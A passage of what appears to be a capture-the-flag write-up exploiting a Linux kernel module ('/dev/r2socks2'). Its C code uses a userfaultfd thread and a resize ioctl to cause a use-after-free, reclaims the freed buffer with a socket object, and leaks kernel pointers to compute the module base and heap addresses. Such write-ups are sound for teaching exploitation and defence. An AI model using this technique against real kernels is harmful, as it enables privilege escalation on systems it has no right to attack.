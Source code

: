 This triggers the `uffd` thread, which uses the resize operation to free the 
buffer and replace it by a new socket object:

```c
            if (count == 0) {
                /* 
                 * First time we just want to leak it, but let's also 
                 * leak the address of a buffer so we can leak it too.
                 */

                /* Resize to 0x100 so we get a uaf on the buffer */
                int resize = ioctl(client[0], IOCTL_SOCKS_RESIZE, 0x100);
                printf("[*] Resize client[%d] said: %d\n", count, resize);

                /* Replace the freed buffer by a sock_t */
                uaf[count] = open("/dev/r2socks2", O_RDONLY);
                printf("[*] Created uaf[%d]\n", count);
                sock_init(uaf[count], 0x80);

                /* 
                 * And put it to listen so we also leak the address of 
                 * the module itself and one of the servers.
                 */

                sock_listen(uaf[count], "uaf0");
            
            } 
```

After this, the read will contain the contents of the `sock_t`:

```c
typedef struct sock {
    spinlock_t lock;
    struct list_head listening_list;
    int state;
    sock_t *peer;
    sock_buf_t *buf;
    unsigned char name[64];
} sock_t;
```

This includes not only the buffer, but also the `list_head` points to the 
global area of the module itself. The list_head also points to the other 
listening socket (s2):

```c
    uint64_t uaf0_listen_next = *(uint64_t *)(map + 1 + 8);
    uint64_t uaf0_listen_prev = *(uint64_t *)(map + 1 + 16);
    /* This must be s2 */
    printf("[*] uaf[0]->listening.next : %lx\n", uaf0_listen_next);
    /* This must be in the module address space */
    
    printf("[*] uaf[0]->listening.prev : %lx\n", uaf0_listen_prev);

    uint64_t s2_sock = uaf0_listen_next - 8;
    uint64_t s2_buf_data = s2_sock + 0x80;
    uint64_t module_list = uaf0_listen_prev;
    uint64_t module = module_list - 0x23c8L;
    uint64_t sock_fop = module + 0x1200L;
    uint64_t uaf0_sock = s2_sock + 0x180;

    /* This is the sock_buf_t in the kmalloc-32 heap */
    uint64_t uaf0_buf = *(uint64_t *)(map + 1 + 0x28);
    printf("[*] uaf[0]->sock->buf : %lx\n", uaf0_buf); 
```

